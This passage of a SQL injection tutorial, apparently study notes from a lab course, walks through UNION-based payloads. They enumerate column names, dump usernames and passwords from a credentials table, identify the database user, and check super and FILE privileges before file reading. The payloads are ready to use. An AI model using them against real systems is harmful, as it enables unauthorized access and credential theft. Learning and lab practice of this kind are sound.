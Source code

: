 >The COLUMNS table contains information about all columns present in all the databases. This helps us find the column names to query a table for. The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this. As we did before, let us try this payload to find the column names in the credentials table:


```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

>Now that we have all the information, we can form our UNION query to dump data of the username and password columns from the credentials table in the dev database. We can place username and password in place of columns 2 and 3:


```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

#### READING FILES:

> If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```
>Our UNION injection payload will be as follows

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
OR
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
##### User Privileges

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```
>Once again, we can use the following payload with the above query:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
We can also dump other privileges we have directly from the schema, with the following query:
```sql
SELECT sql_grants FROM information_schema.sql_show_grants
```
> Once again, we can add WHERE user="root" to only show our current user root privileges. Our payload would be:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
> We see that the FILE privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.
